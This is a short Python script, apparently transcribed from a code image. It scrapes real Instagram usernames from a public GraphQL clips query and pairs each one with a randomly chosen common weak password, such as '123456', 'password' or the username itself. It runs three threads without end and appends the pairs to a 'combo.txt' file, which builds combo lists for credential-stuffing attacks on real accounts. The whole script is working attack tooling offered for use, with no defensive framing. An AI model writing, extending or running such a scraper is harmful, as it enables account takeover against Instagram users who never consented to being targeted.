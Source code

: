 import requests
import threading
import random
ab=0
def gen():
    global ab
    while True:
        headers = {
            'user-agent': 'Mozilla/5.0 (Linux; Android 10; K) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Mobile Safari/537.36',
        }        
        data = {
            'variables': '{"data":{"chaining_mode":"same_author","clips_media_id":null,"page_size":15},"first":null}', 
            #'server_timestamps': 'true'
            'doc_id': '8993519360741225'
        }        
        response = requests.post('https://www.instagram.com/graphql/query', headers=headers, data=data).json() 
        usernames = set([us['node']['media']['user']['username'] for us in response['data']['xdt_api__v1__clips__clips_on_logged_out_connection_v2']['edges']])              
        for user in usernames:
              pas= [
                  "123456",
    "12345@@",
     user,
    "qwerqwer",
    "Aa1234",
    "00998877",
    "qqwweerr",
    "1q2w3e4r",
    "1234567",
    "12345678",
    "098765",
    "qwertyuiop",
    "11223344",
    "1122334455",
    "qwer1234",
    "password",
    "mmnnbbvv",
    "ppooiiuu",
    "12345a",
    "123456789"
]

  
              pasw= random.choice(pas)
              print(f'''
                {ab} / {user} / {pasw}
  ''')
  
              ab+=1
              with open('combo.txt', 'a') as f:
              	f.write(f'{user}:{pasw}'+'\n')
            
for i in range(3):
  threading.Thread(target=gen).start()
